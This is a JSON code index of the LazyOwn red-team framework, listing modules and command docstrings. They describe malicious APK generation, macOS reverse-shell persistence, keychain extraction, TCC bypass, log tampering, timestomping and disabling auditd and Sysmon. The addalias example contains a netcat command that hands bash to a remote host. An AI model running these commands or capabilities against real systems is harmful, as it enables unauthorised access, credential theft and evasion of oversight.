list ordered prerequisites\n    ``prev``               use the most recent command from history\n\nThe list reflects the static prerequisite registry declared in\n``cli/command_chain.py`` and is also exposed via the MCP tool\n``lazyown_command_prev`` so the AI loop sees the same view.\n\n:param line: command verb (with or without the ``do_`` prefix).\n:type line: str\n:return: None", "kind": "method", "line": 489, "name": "do_prev", "signature": "def do_prev(self, line)"}, {"doc": "Launch the full-screen LazyOwn operator dashboard (Textual TUI).\n\nOpens an auto-refreshing terminal dashboard showing the active target,\nkill chain progress, recent commands, objectives, credentials, beacons\nand graph-driven next-step hints. Press Q or Ctrl-C to close and return\nto the shell.\n\nUsage: ``dashboard``\n\nThe dashboard reads from:\n- ``payload.json`` — target / attacker config and feature flags.\n- ``sessions/world_model.json`` — current phase and objectives.\n- ``sessions/tasks.json`` — active task list.\n- ``sessions/LazyOwn_session_report.csv`` — recent commands.\n- ``sessions/credentials*.txt`` / ``sessions/hash*.txt`` — credential counts.\n- ``graphify-out/graph_lazyown.json`` — next-step hints (requires ``/graphify .``).\n\nThe ``textual`` package must be installed (``pip install textual``). When\nthe package is missing the command prints an install hint and returns.\n\n:param line: Unused. Reserved for future flags.\n:type line: str\n:return: None", "kind": "method", "line": 526, "name": "do_dashboard", "signature": "def do_dashboard(self, line)"}, {"doc": "Open the fuzzy Command-K palette overlay.\n\nModal Textual overlay that lists every ``do_*`` command, ranks\nrecents first, narrows on substring input and returns the\nselected verb back to the shell for execution.\n\nUsage: ``palette_k``\n\nRequires ``textual``. When the package is missing or the command\nindex is unavailable, the call prints an install hint and\nreturns without raising.", "kind": "method", "line": 561, "name": "do_palette_k", "signature": "def do_palette_k(self, line)"}, {"doc": "Open the sessions/ TUI browser.\n\nCategorised view of ``sessions/`` artefacts (credentials,\nhashes, vulnerabilities, scans, notes, events, world model)\nwith a side preview pane and substring filter.\n\nUsage: ``browse``\n\nRequires ``textual``. When the package is missing, the command\nprints an install hint and returns.", "kind": "method", "line": 590, "name": "do_browse", "signature": "def do_browse(self, line)"}, {"doc": "Open the timeline scrubber over the session report CSV.\n\nScrollable, filterable view over\n``sessions/LazyOwn_session_report.csv``. Highlight a row to see\nevery recorded column for that command.\n\nUsage: ``timeline_browser``\n\nRequires ``textual``.", "kind": "method", "line": 612, "name": "do_timeline_browser", "signature": "def do_timeline_browser(self, line)"}, {"doc": "Open the graph overlay over the graphify knowledge graph.\n\nShows the top central nodes by default and switches to the\nneighbourhood of a focus node when the operator types one. Esc\ncloses; Tab toggles between modes.\n\nUsage: ``graph_overlay``\n\nRequires ``textual`` and a populated ``graphify-out/graph_lazyown.json``\n(produced by ``/graphify .``).", "kind": "method", "line": 631, "name": "do_graph_overlay", "signature": "def do_graph_overlay(self, line)"}, {"doc": "Mark every pending toast event as seen without printing them.\n\nUseful after long pauses where the autonomous daemon backlogged\nevents the operator no longer cares to read. The state file at\n``sessions/.toast_state.json`` is updated atomically.\n\nUsage: ``toast_clear``", "kind": "method", "line": 651, "name": "do_toast_clear", "signature": "def do_toast_clear(self, line)"}, {"doc": "Exit the command line interface.\n\nThis function prompts the user to confirm whether they want to exit the command line interface. If confirmed, it will terminate the program. Otherwise, it will cancel the exit.\n\nUsage:\n    exit\n\n:param arg: This parameter is not used in this function.\n:type arg: str\n\n:returns: None\n\nManual execution:\n1. Prompt the user with a confirmation message to exit the CLI.\n2. If the user confirms with 's', print a message and exit the program.\n3. If the user provides any other input, print a cancellation message and remain in the CLI.\n\nDependencies:\n- `sys.exit` function for exiting the program.\n\nExample:\n    To execute the function, simply call `exit`.\n\nNote:\n    - The confirmation prompt is in Spanish.\n    - Ensure that `sys` is imported in your script.", "kind": "method", "line": 671, "name": "do_exit", "signature": "def do_exit(self, arg)"}, {"doc": "Persist the chain-mode toggle through the sanctioned assign path.\n\nKeeps ``payload.json`` and the runtime session state in agreement\nso the choice survives future boots and payload rewrites.\n\nArgs:\n    enabled: New chain-mode state to persist.\n\nReturns:\n    None.", "kind": "method", "line": 726, "name": "_persist_chainmode", "signature": "def _persist_chainmode(self, enabled)"}, {"doc": "Show the banner", "kind": "method", "line": 744, "name": "do_banner", "signature": "def do_banner(self, line)"}, {"doc": "Open a Powerlevel10k-style wizard to toggle prompt segments.\n\nArrow keys move, Space toggles, Enter saves to ``payload.json`` under\nthe ``banner`` block, Escape cancels. ``d`` resets to factory\ndefaults; ``a`` enables every segment; ``n`` disables every segment.\nThe shell prompt refreshes immediately after a save without\nrequiring a restart.\n\n:param line: optional sub-action. ``show`` prints the current\n    enabled segments without opening the wizard. ``reset`` writes\n    the factory-default segment selection back to payload.json.\n:type line: str\n:return: None", "kind": "method", "line": 754, "name": "do_config_banner", "signature": "def do_config_banner(self, line)"}, {"doc": "Prints all configured aliases and their associated commands.\n\n1. Retrieves the list of aliases from the `LazyOwnShell` instance:\n- Iterates through each alias and its associated command.\n\n2. For each alias:\n- Displays the alias name and the full command it represents.\n\n:param line: This parameter is not used in the function.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would need to:\n- Ensure that aliases are configured in the `LazyOwnShell` instance.\n- Manually review the aliases and their commands as displayed.\n\nNote: This function assumes that aliases are managed by the `LazyOwnShell` instance and are available for retrieval.", "kind": "method", "line": 798, "name": "do_aliass", "signature": "def do_aliass(self, line)"}, {"doc": "Generates a graph from JSON payload files containing URL, RHOST, and RPORT.\n\n:param line: Not used in this implementation but reserved for future use.\n\n:returns: None", "kind": "method", "line": 826, "name": "do_graph", "signature": "def do_graph(self, line)"}, {"doc": "Open a new window within a tmux session using the LazyOwn RedTeam Framework.\n\nThis method is designed to create a new horizontal split window in an existing\ntmux session, where the specified command will be executed. The command\nused to open the new window is the `./run --no-banner` script, which is\nintended for use within the LazyOwn RedTeam Framework environment.\n\nThe method first ensures that the specified tmux session is active by calling\nthe `ensure_tmux_session` function. If the session is not already running,\nit will create a new one. After confirming that the session is active, it\nproceeds to create a new horizontal window with a specified size. The size of\nthe new window is currently set to 50% of the available terminal space.\n\nArgs:\n    arg (str): Additional arguments passed to the command, if any. This can be\n                used to customize the behavior of the command executed in the\n                new window. However, in the current implementation, this\n                argument is not utilized and can be left as an empty string.\n\nExample:\n    If this method is called within a command-line interface of the LazyOwn\n    RedTeam Framework, it will open a new horizontal tmux window and execute\n    the `./run --no-banner` command within it.\n\nNote:\n    - Ensure that tmux is installed and properly configured on the system.", "kind": "method", "line": 886, "name": "do_h", "signature": "def do_h(self, arg)"}, {"doc": "Open a new window within a tmux session using the LazyOwn RedTeam Framework.\n\nThis method is designed to create a new vertical split window in an existing\ntmux session, where the specified command will be executed. The command\nused to open the new window is the `./run --no-banner` script, which is\nintended for use within the LazyOwn RedTeam Framework environment.\n\nThe method first ensures that the specified tmux session is active by calling\nthe `ensure_tmux_session` function. If the session is not already running,\nit will create a new one. After confirming that the session is active, it\nproceeds to create a new vertical window with a specified size. The size of\nthe new window is currently set to 50% of the available terminal space.\n\nArgs:\n    arg (str): Additional arguments passed to the command, if any. This can be\n                used to customize the behavior of the command executed in the\n                new window. However, in the current implementation, this\n                argument is not utilized and can be left as an empty string.\n\nExample:\n    If this method is called within a command-line interface of the LazyOwn\n    RedTeam Framework, it will open a new vertical tmux window and execute\n    the `./run --no-banner` command within it.\n\nNote:\n    - Ensure that tmux is installed and properly configured on the system.", "kind": "method", "line": 932, "name": "do_v", "signature": "def do_v(self, arg)"}, {"doc": "Displays a list of useful links and allows the user to select and copy a link to the clipboard.\n\nThis function performs the following actions:\n1. Defines a list of links with their aliases.\n2. Filters the links based on the input `line` if provided.\n3. Displays the filtered links with their aliases and URLs.\n4. Prompts the user to select a link by entering the corresponding number.\n5. Copies the selected link to the clipboard.\n\nParameters:\nline (str, optional): A string to filter the links. If provided, only the links containing\n                    the string in their alias or URL will be displayed. Defaults to an empty string.\n\nReturns:\nNone", "kind": "method", "line": 978, "name": "do_links", "signature": "def do_links(self, line)"}, {"doc": "Show the Hacker News in the terminal.\n\nParameters:\n    line (str): optional\nReturn None", "kind": "method", "line": 1041, "name": "do_news", "signature": "def do_news(self, line)"}, {"doc": "Checks for updates by comparing the local version with the remote version.\n\nThis function:\n    - Fetches the remote version from a JSON file hosted on GitHub.\n    - Reads the local version from a JSON file in the script's root directory.\n    - Compares the version numbers and determines if an update is needed.\n\nBehavior:\n    - Requires `requests` library to fetch the remote version.\n    - Uses JSON parsing to extract version numbers.\n\nUsage:\n    check_update", "kind": "method", "line": 1054, "name": "do_check_update", "signature": "def do_check_update(self, line)"}, {"doc": "Add a new alias with support for placeholders like {rhost}, {lhost}, {lport}, etc.\n\nUsage:\n    addalias <name> <command>\n\nExample:\n    addalias myrev sh rlwrap nc {rhost} {lport} -e bash\n    addalias scan run_script \"lazyscripts/nmap_scan.ls {rhost}\"", "kind": "method", "line": 1099, "name": "do_addalias", "signature": "def do_addalias(self, arglist)"}, {"doc": "List all available aliases.", "kind": "method", "line": 1151, "name": "do_listaliases", "signature": "def do_listaliases(self, _)"}]}, {"doc": "Mobile & macOS exploitation command set.  Covers Android enumeration and APK generation, macOS persistence and keychain extraction.", "id": "cli/commands/mobile_macos.py", "kind": "module", "label": "mobile_macos.py", "language": "py", "sha256": "2fb8e8e9d5d6f208", "symbol_count": 10, "symbols": [{"doc": "Mobile and macOS exploitation operations.", "kind": "class", "line": 96, "name": "MobileMacOSCommandSet", "signature": "class MobileMacOSCommandSet(LazyOwnCommandSet)"}, {"doc": "Extract a ``--flag <value>`` pair, delegates to shared helper.", "kind": "function", "line": 351, "name": "_extract_flag", "signature": "def _extract_flag(args, flag)"}, {"doc": "Return ADB argv with optional validated serial.", "kind": "function", "line": 361, "name": "_adb_argv", "signature": "def _adb_argv(serial)"}, {"doc": "Restrict generated artefacts to sessions/ tree.", "kind": "function", "line": 368, "name": "_is_safe_output_path", "signature": "def _is_safe_output_path(path)"}, {"doc": "Check if a binary is available on PATH, delegates to core.", "kind": "function", "line": 374, "name": "is_binary_present", "signature": "def is_binary_present(name)"}, {"doc": "Enumerate an Android device connected via ADB.\n\nUsage: android_enum [--serial <device_serial>]\n\nDumps device info, installed packages, running processes, and\nsensitive files (SMS, contacts, accounts).", "kind": "method", "line": 103, "name": "do_android_enum", "signature": "def do_android_enum(self, line)"}, {"doc": "Generate a malicious APK with reverse shell payload.\n\nUsage: android_apk [--lhost <ip>] [--lport <port>] [--output <path>]\n\nGenerates an Android APK using msfvenom with a Meterpreter reverse\nTCP payload. Requires msfvenom to be installed.", "kind": "method", "line": 171, "name": "do_android_apk", "signature": "def do_android_apk(self, line)"}, {"doc": "Generate macOS persistence via LaunchAgent.\n\nUsage: macos_persist [--lhost <ip>] [--lport <port>] [--label <name>]\n\nCreates a LaunchAgent plist that executes a reverse shell at login\nand keeps it alive every 5 minutes.", "kind": "method", "line": 216, "name": "do_macos_persist", "signature": "def do_macos_persist(self, line)"}, {"doc": "Extract secrets from the macOS Keychain.\n\nUsage: macos_keychain [--target <ip>] [--user <username>]\n\nGenerates commands to dump keychain items (passwords, certs, keys)\nfrom the target Mac.", "kind": "method", "line": 274, "name": "do_macos_keychain", "signature": "def do_macos_keychain(self, line)"}, {"doc": "Generate macOS TCC (Transparency, Consent, Control) bypass.\n\nUsage: macos_tcc --binary <app_path>\n\nInserts an accessibility permission entry into the TCC database,\nbypassing the user consent dialog for the specified binary.\nRequires Full Disk Access or SIP disabled.", "kind": "method", "line": 323, "name": "do_macos_tcc", "signature": "def do_macos_tcc(self, line)"}]}, {"doc": "Module management commands — search, use, back, and active module context.  Provides the Metasploit-like workflow: search <query> use <module> show options set <option> <value>  (via cmd2 builtin — sets shell params) run back  The active module context is stored on the parent shell (``_active_module`` and ``_active_module_options``) so the extended ``do_show`` and ``do_run`` in ``lazyown.py`` can read it.", "id": "cli/commands/module_manager.py", "kind": "module", "label": "module_manager.py", "language": "py", "sha256": "4ebf8f38f0e3c6ad", "symbol_count": 7, "symbols": [{"doc": "Search, browse, and select framework modules.", "kind": "class", "line": 36, "name": "ModuleManagerCommandSet", "signature": "class ModuleManagerCommandSet(LazyOwnCommandSet)"}, {"kind": "method", "line": 42, "name": "_get_registry", "signature": "def _get_registry(self)"}, {"kind": "method", "line": 50, "name": "_get_active_module", "signature": "def _get_active_module(self)"}, {"kind": "method", "line": 56, "name": "_get_active_options", "signature": "def _get_active_options(self)"}, {"doc": "Search for modules by name, description, or author.\n\nUsage:\n    search <query>\n    search type:exploit <query>\n    search platform:windows\n\nExamples:\n    search smb\n    search type:exploit\n    search cve-2023", "kind": "method", "line": 71, "name": "do_search", "signature": "def do_search(self, line)"}, {"doc": "Select a module to work with.\n\nUsage: use <module_name>\nShows module metadata and enters module context.\nUse 'show options' to view configurable parameters.\nUse 'run' to execute the module.\nUse 'back' to leave module context.", "kind": "method", "line": 111, "name": "do_use", "signature": "def do_use(self, line)"}, {"doc": "Leave the current module context.\n\nUsage: back", "kind": "method", "line": 162, "name": "do_back", "signature": "def do_back(self, line)"}]}, {"doc": "Network helpers extracted from the miscellaneous cluster.  Pending status: originals deleted from ``cli/commands/misc_migrated.py``; this set is registered by ``cli.registry``.", "id": "cli/commands/nethelpers.py", "kind": "module", "label": "nethelpers.py", "language": "py", "sha256": "ebef4428ae42f20e", "symbol_count": 11, "symbols": [{"doc": "Network helpers.", "kind": "class", "line": 31, "name": "NetworkHelpersCommandSet", "signature": "class NetworkHelpersCommandSet(LazyOwnCommandSet)"}, {"doc": "Displays IP addresses of network interfaces and copies the IP address from the `tun0` interface to the clipboard.\n\nThis function performs the following tasks:\n1. Displays IP addresses for all network interfaces using `ip a show scope global` and `awk`.\n2. Copies the IP address from the `tun0` interface to the clipboard using `xclip`.\n\nUsage:\n    ip\n\n:param line: This parameter is not used in the function but is included for consistency with other command methods.\n:type line: str\n:returns: None\n\nManual execution:\n1. The command `ip a show scope global | awk '/^[0-9]+:/ { sub(/:/,\"\",$2); iface=$2 } /^[[:space:]]*inet / { split($2, a, \"/\"); print \"    [\u001b[96m\" iface\"\u001b[0m] \"a[1] }'` is executed to display the IP addresses of all network interfaces.\n2. The IP address of the `tun0` interface is copied to the clipboard using the command `ip a show tun0 | grep 'inet ' | awk '{print $2}' | cut -d'/' -f1 | xclip -sel clip`.\n\nDependencies:\n- The function relies on `awk`, `grep`, `cut`, and `xclip` to process and copy the IP address.\n\nExample:\n    ip\n    # This will display IP addresses for all network interfaces and copy the IP address from `tun0` to the clipboard.\n\nNote:\n    Ensure that the `tun0` interface exists and has an IP address assigned. If `tun0` is not present or has no IP address, the clipboard will not be updated.", "kind": "method", "line": 38, "name": "do_ip", "signature": "def do_ip(self, line)"}, {"doc": "Displays IP addresses of network interfaces and prints the IP address from the `tun0` interface.\n\nThis function performs the following tasks:\n1. Displays IP addresses for all network interfaces using `ip a show scope global` and `awk`.\n2. Prints the IP address from the `tun0` interface.\n\nUsage:\n    ip\n\n:param line: This parameter is not used in the function but is included for consistency with other command methods.\n:type line: str\n:returns: None\n\nManual execution:\n1. The command `ip a show scope global | awk '/^[0-9]+:/ { sub(/:/,\"\",$2); iface=$2 } /^[[:space:]]*inet / { split($2, a, \"/\"); print \"    [\u001b[96m\" iface\"\u001b[0m] \"a[1] }'` is executed to display the IP addresses of all network interfaces.\n2. The IP address of the `tun0` interface is printed to the console using the command `ip a show tun0 | grep 'inet ' | awk '{print $2}' | cut -d'/' -f1`.\n\nDependencies:\n- The function relies on `awk`, `grep`, `cut`, and `xclip` to process and display the IP address.\n\nExample:\n    ip\n    # This will display IP addresses for all network interfaces and print the IP address from `tun0`.\n\nNote:\n    Ensure that the `tun0` interface exists and has an IP address assigned. If `tun0` is not present or has no IP address, the address will not be displayed.", "kind": "method", "line": 120, "name": "do_ipp", "signature": "def do_ipp(self, line)"}, {"doc": "Copies the remote host (self.params['rhost']) to the clipboard and updates the command prompt.\n\nThis function performs two tasks:\n1. It copies the `self.params['rhost']` parameter to the clipboard if it is valid.\n2. It updates the command prompt to include the `self.params['rhost']` and the current working directory.\n\nUsage:\n    self.params['rhost'] [clean]\n\n:param line: An optional argument that determines the behavior of the function:\n    - If 'clean', it resets the command prompt to its default format.\n    - If any other value, it updates the command prompt to include the `self.params['rhost']` and current working directory.\n:type line: str\n:returns: None\n\nManual execution:\n1. If `line` is 'clean':\n- The command prompt is reset to its default format.\n2. If `line` is any other value:\n- The command prompt is updated to show the `self.params['rhost']` and the current working directory.\n- The `self.params['rhost']` is copied to the clipboard using `xclip`.\n\nDependencies:\n- The script uses `xclip` to copy the `self.params['rhost']` to the clipboard.\n\nExample:\n    self.params['rhost']\n    # This will copy the current `self.params['rhost']` to the clipboard and update the prompt.\n\n    self.params['rhost'] clean\n    # This will reset the command prompt to its default format.\n\nNote:\n    Ensure that the `self.params['rhost']` is valid by checking it with the `check_rhost` function before copying it to the clipboard.", "kind": "method", "line": 201, "name": "do_rhost", "signature": "def do_rhost(self, line)"}, {"doc": "Updates the command prompt to include the remote host (self.params['rhost']) and current working directory.\n\nThis function performs two tasks:\n1. It updates the command prompt to include the `self.params['rhost']` and the current working directory if `line` is not 'clean'.\n2. It resets the command prompt to its default format if `line` is 'clean'.\n\nUsage:\n    self.params['rhost'] [clean]\n\n:param line: An optional argument that determines the behavior of the function:\n    - If 'clean', it resets the command prompt to its default format.\n    - If any other value, it updates the command prompt to include the `self.params['rhost']` and current working directory.\n:type line: str\n:returns: None\n\nManual execution:\n1. If `line` is 'clean':\n- The command prompt is reset to its default format.\n2. If `line` is any other value:\n- The command prompt is updated to show the `self.params['rhost']` and the current working directory.\n\nExample:\n    self.params['rhost']\n    # This will update the command prompt to include the `self.params['rhost']` and current working directory.\n\n    self.params['rhost'] clean\n    # This will reset the command prompt to its default format.\n\nNote:\n    Ensure that the `self.params['rhost']` is valid by checking it with the `check_rhost` function before updating the prompt.", "kind": "method", "line": 254, "name": "do_rrhost", "signature": "def do_rrhost(self, line)"}, {"doc": "Adds an entry to the `/etc/hosts` file, mapping an IP address to a domain name.\n\n:param line: The domain name to be added to the `/etc/hosts` file.\n    - Example: `permx.htb`\n\n:returns: None\n\nManual execution:\nTo manually add a domain to the `/etc/hosts` file, use the following command:\n\n    sudo sh -c -e \"echo '<rhost> <domain>' >> /etc/hosts\"\n\nExample:\n    sudo sh -c -e \"echo '10.10.11.23 permx.htb' >> /etc/hosts\"\n\nThis command appends the IP address and domain name to the `/etc/hosts` file, enabling local resolution of the domain.", "kind": "method", "line": 295, "name": "do_addhosts", "signature": "def do_addhosts(self, line)"}, {"doc": "Command to get ASN for a given IP address.", "kind": "method", "line": 319, "name": "do_ip2asn", "signature": "def do_ip2asn(self, line)"}, {"doc": "Configures the system to ignore ARP requests by setting a kernel parameter.\n\nThis function performs the following tasks:\n1. Prints a message indicating the command that will be executed.\n2. Executes the command `echo 1 > /proc/sys/net/ipv4/conf/all/arp_ignore` with elevated privileges using `sudo` to configure the system to ignore ARP requests.\n3. Prints a confirmation message indicating that the operation is complete.\n\nUsage:\n    ignorearp\n\n:param line: This parameter is not used in the function but is included for consistency with other command methods.\n:type line: str\n:returns: None\n\nManual execution:\n    1. The command `sudo bash -c 'echo 1 > /proc/sys/net/ipv4/conf/all/arp_ignore'` is executed to assign the `arp_ignore` parameter to `1`, which configures the system to ignore ARP requests.\n\nDependencies:\n    - The function requires `sudo` to run the command with elevated privileges.\n\nExample:\n    ignorearp\n    # This will assign the `arp_ignore` parameter to `1` to ignore ARP requests.\n\nNote:\n    Ensure that you have the necessary permissions to use `sudo` and that the `arp_ignore` parameter can be modified on your system.", "kind": "method", "line": 348, "name": "do_ignorearp", "signature": "def do_ignorearp(self, line)"}, {"doc": "Configures the system to ignore ICMP echo requests by setting a kernel parameter.\n\nThis function performs the following tasks:\n1. Prints a message indicating the command that will be executed.\n2. Executes the command `echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all` with elevated privileges using `sudo` to configure the system to ignore ICMP echo requests (ping).\n3. Prints a confirmation message indicating that the operation is complete.\n\nUsage:\n    ignoreicmp\n\n:param line: This parameter is not used in the function but is included for consistency with other command methods.\n:type line: str\n:returns: None\n\nManual execution:\n    1. The command `sudo bash -c 'echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all'` is executed to assign the `icmp_echo_ignore_all` parameter to `1`, which configures the system to ignore ICMP echo requests (ping).\n\nDependencies:\n    - The function requires `sudo` to run the command with elevated privileges.\n\nExample:\n    ignoreicmp\n    # This will assign the `icmp_echo_ignore_all` parameter to `1` to ignore ICMP echo requests.\n\nNote:\n    Ensure that you have the necessary permissions to use `sudo` and that the `icmp_echo_ignore_all` parameter can be modified on your system.", "kind": "method", "line": 383, "name": "do_ignoreicmp", "signature": "def do_ignoreicmp(self, line)"}, {"doc": "Configures the system to acknowledge ARP requests by setting a kernel parameter.\n\nThis function performs the following tasks:\n1. Prints a message indicating the command that will be executed.\n2. Executes the command `echo 0 > /proc/sys/net/ipv4/conf/all/arp_ignore` with elevated privileges using `sudo` to configure the system to acknowledge ARP requests.\n3. Prints a confirmation message indicating that the operation is complete.\n\nUsage:\n    acknowledgearp\n\n:param line: This parameter is not used in the function but is included for consistency with other command methods.\n:type line: str\n:returns: None\n\nManual execution:\n    1. The command `sudo bash -c 'echo 0 > /proc/sys/net/ipv4/conf/all/arp_ignore'` is executed to assign the `arp_ignore` parameter to `0`, which configures the system to acknowledge ARP requests.\n\nDependencies:\n    - The function requires `sudo` to run the command with elevated privileges.\n\nExample:\n    acknowledgearp\n    # This will assign the `arp_ignore` parameter to `0` to acknowledge ARP requests.\n\nNote:\n    Ensure that you have the necessary permissions to use `sudo` and that the `arp_ignore` parameter can be modified on your system.", "kind": "method", "line": 418, "name": "do_acknowledgearp", "signature": "def do_acknowledgearp(self, line)"}, {"doc": "Configures the system to respond to ICMP echo requests by setting a kernel parameter.\n\nThis function performs the following tasks:\n1. Prints a message indicating the command that will be executed.\n2. Executes the command `echo 0 > /proc/sys/net/ipv4/icmp_echo_ignore_all` with elevated privileges using `sudo` to configure the system to respond to ICMP echo requests.\n3. Prints a confirmation message indicating that the operation is complete.\n\nUsage:\n    acknowledgeicmp\n\n:param line: This parameter is not used in the function but is included for consistency with other command methods.\n:type line: str\n:returns: None\n\nManual execution:\n    1. The command `sudo bash -c 'echo 0 > /proc/sys/net/ipv4/icmp_echo_ignore_all'` is executed to assign the `icmp_echo_ignore_all` parameter to `0`, which configures the system to respond to ICMP echo requests.\n\nDependencies:\n    - The function requires `sudo` to run the command with elevated privileges.\n\nExample:\n    acknowledgeicmp\n    # This will assign the `icmp_echo_ignore_all` parameter to `0` to allow responses to ICMP echo requests.\n\nNote:\n    Ensure that you have the necessary permissions to use `sudo` and that the `icmp_echo_ignore_all` parameter can be modified on your system.", "kind": "method", "line": 453, "name": "do_acknowledgeicmp", "signature": "def do_acknowledgeicmp(self, line)"}]}, {"doc": "OPSEC and cleanup commands — scoring, log tamper, forensic cleaner, timestomp, memory, network.  Provides: opsec_score             — Real-time OPSEC risk assessment with action gating (v2) log_tamper              — Cross-platform log clearing (Windows/Linux/macOS) forensic_clean          — Remove forensic artifacts (Prefetch, Shimcache, Amcache, etc.) timestomp               — Manipulate file MACB timestamps memory_clean            — Clear memory artifacts (tickets, clipboard, env, credentials) network_opsec           — Proxy chains, DoH, canary detection, traffic analysis auditd_disable          — Disable Linux auditd sysmon_disable          — Disable Windows Sysmon", "id": "cli/commands/opsec_cleanup.py", "kind": "module", "label": "opsec_cleanup.py", "language": "py", "sha256": "311511237b61d8a1", "symbol_count": 9, "symbols": [{"doc": "OPSEC scoring, log tampering, forensic cleaning, timestomping, memory/network OPSEC.", "kind": "class", "line": 19, "name": "OpsecCleanupCommandSet", "signature": "class OpsecCleanupCommandSet(LazyOwnCommandSet)"}, {"doc": "Real-time OPSEC risk assessment with contextual action gating (v2).\n\nUsage: opsec_score <command> [--phase <phase>] [--env <environment>] [--edr] [--siem] [--priv]\n\nPerforms context-aware OPSEC scoring considering:\n    - Kill-chain phase\n    - Target environment type (enterprise, smb, government, cloud, critical_infrastructure)\n    - EDR/SIEM presence\n    - Privilege level\n    - Evasion status\n    - Artifact count and session duration\n\nReturns risk level, noise score, detection surface, gate action (ALLOW/WARN/CONFIRM/BLOCK),\nand ranked mitigations.\n\nExamples:\n    opsec_score mimikatz --phase credential_access --env enterprise --edr --siem\n    opsec_score secretsdump --phase credential_access --env government\n    opsec_score nmap --phase scanning\n    opsec_score psexec --env enterprise --edr", "kind": "method", "line": 25, "name": "do_opsec_score", "signature": "def do_opsec_score(self, line)"}, {"doc": "Cross-platform log clearing commands.\n\nUsage: log_tamper <platform> [--no-eventlog-suspend] [--no-verify]\n\nPlatforms: windows, linux, macos, all\n\nWindows: 13 Event Logs + EventLog service suspend + Sysmon\nLinux: journald, auth.log, wtmp/btmp, shell history, auditd\nmacOS: unified log, system.log, TCC.db, diagnostic reports\n\nExamples:\n    log_tamper windows\n    log_tamper linux\n    log_tamper all", "kind": "method", "line": 97, "name": "do_log_tamper", "signature": "def do_log_tamper(self, line)"}, {"doc": "Clean forensic artifacts — Prefetch, Shimcache, Amcache, Jump Lists, etc.\n\nUsage: forensic_clean <platform> [--no-prefetch] [--no-amcache] [--mft]\n\nPlatforms: windows, linux, macos, all\n\nWindows cleans: Prefetch, Shimcache, Amcache, Jump Lists, Recent files,\n                Shellbags, LNK files, MRU registry, thumbnail cache, USN journal, MFT.\n\nExamples:\n    forensic_clean windows\n    forensic_clean windows --mft\n    forensic_clean all", "kind": "method", "line": 162, "name": "do_forensic_clean", "signature": "def do_forensic_clean(self, line)"}, {"doc": "Manipulate file MACB timestamps to evade forensic timeline analysis.\n\nUsage: timestomp <target_path> [--ref <reference_file>] [--platform <windows|linux|macos>] [--randomize]\n\nClones timestamps from a legitimate system file onto target files.\nSupports batch directory timestomping and randomized timestamp windows.\n\nExamples:\n    timestomp /tmp/beacon.exe --platform windows\n    timestomp /tmp/staged/ --ref /etc/passwd --platform linux\n    timestomp ~/Library/LaunchAgents/backdoor.plist --platform macos --randomize", "kind": "method", "line": 219, "name": "do_timestomp", "signature": "def do_timestomp(self, line)"}, {"doc": "Clean memory artifacts — Kerberos tickets, clipboard, env vars, credentials.\n\nUsage: memory_clean <platform> [--no-tickets] [--no-clipboard]\n\nPlatforms: windows, linux, macos, all\n\nWindows: Kerberos purge, NTLM cache, clipboard, env vars, PSReadline, DPAPI\nLinux: env vars, GNOME keyring, ssh-agent, clipboard (xclip), kdestroy\nmacOS: Keychain, pasteboard, ssh-agent, kdestroy, env scrub\n\nExamples:\n    memory_clean windows\n    memory_clean all", "kind": "method", "line": 288, "name": "do_memory_clean", "signature": "def do_memory_clean(self, line)"}, {"doc": "Network OPSEC — proxy chains, DoH, canary detection, traffic analysis.\n\nUsage: network_opsec <method> [options]\n\nMethods:\n    proxy_chain  — Configure proxy chain (socks5, http, ssh tunnels)\n    doh          — DNS-over-HTTPS configuration\n    port_rand    — Source port randomization\n    jitter       — Connection jitter schedule generation\n    canary_check — Detect canary tokens and honeypots\n    traffic      — Analyze TLS inspection and proxy detection\n\nExamples:\n    network_opsec proxy_chain --type socks5_over_ssh\n    network_opsec doh\n    network_opsec canary_check --domains target.local,admin.target.local\n    network_opsec traffic --host target.com --port 443", "kind": "method", "line": 342, "name": "do_network_opsec", "signature": "def do_network_opsec(self, line)"}, {"doc": "Generate commands to disable Linux auditd.\n\nUsage: auditd_disable [--restore]", "kind": "method", "line": 445, "name": "do_auditd_disable", "signature": "def do_auditd_disable(self, line)"}, {"doc": "Generate commands to disable Windows Sysmon.\n\nUsage: sysmon_disable [--restore]", "kind": "method", "line": 468, "name": "do_sysmon_disable", "signature": "def do_sysmon_disable(self, line)"}]}, {"doc": "Orchestration CommandSet: operator-facing surface for the new modules.  This module exposes two verbs to the cmd2 shell:  * ``status_bar`` — inspect, toggle and refresh the persistent prompt status bar provided by :mod:`cli.status_bar`. * ``orchestrate`` — drive :class:`skills.unified_orchestrator.UnifiedOrchestrator` with a single goal string, routing transparently to the daemon, hive or SWAN backend.  The set is active (subclass of :class:`cli.commands._base.LazyOwnCommandSet`) because both verbs are new — there is no legacy ``do_*`` in ``lazyown.py`` that they collide with. Activation therefore happens via :func:`cli.registry.register_command_sets` on shell startup.", "id": "cli/commands/orchestration.py", "kind": "module", "label": "orchestration.py", "language": "py", "sha256": "b55901fc8be9ffd3", "symbol_count": 15, "symbols": [{"doc": "Immutable defaults for the orchestration verbs.", "kind": "class", "line": 37, "name": "OrchestrationConfig", "signature": "class OrchestrationConfig"}, {"doc": "Render a live spinner with the newest reasoning line until stopped.\n\nRuns on a worker thread while the orchestrator blocks. Each poll\nreads the tail of the autonomous events log so the operator watches\nwhat the run is doing instead of silence. Any failure degrades to\na static waiting line, never to an exception.", "kind": "function", "line": 60, "name": "_spinner_hints", "signature": "def _spinner_hints(stop, events_path)"}, {"doc": "Run a blocking orchestrator call with a live reasoning spinner.\n\nStarts the spinner thread only on interactive terminals; anywhere\nelse the call runs unwrapped so piped JSON output stays clean.", "kind": "function", "line": 94, "name": "run_with_spinner", "signature": "def run_with_spinner(execute)"}, {"doc": "Return the argparse parser used by ``status_bar``.", "kind": "function", "line": 115, "name": "_build_status_bar_parser", "signature": "def _build_status_bar_parser()"}, {"doc": "Return the argparse parser used by ``orchestrate``.", "kind": "function", "line": 128, "name": "_build_orchestrate_parser", "signature": "def _build_orchestrate_parser()"}, {"doc": "Operator commands exposing the status bar and unified orchestrator.", "kind": "class", "line": 182, "name": "OrchestrationCommandSet", "signature": "class OrchestrationCommandSet(LazyOwnCommandSet)"}, {"doc": "Inspect, toggle and refresh the prompt status bar.\n\nSubcommands:\n    show     Print the currently rendered status line.\n    on / off Persist the flag into payload via the shell.\n    refresh  Recompute the status bar context against ``sessions/``.", "kind": "method", "line": 190, "name": 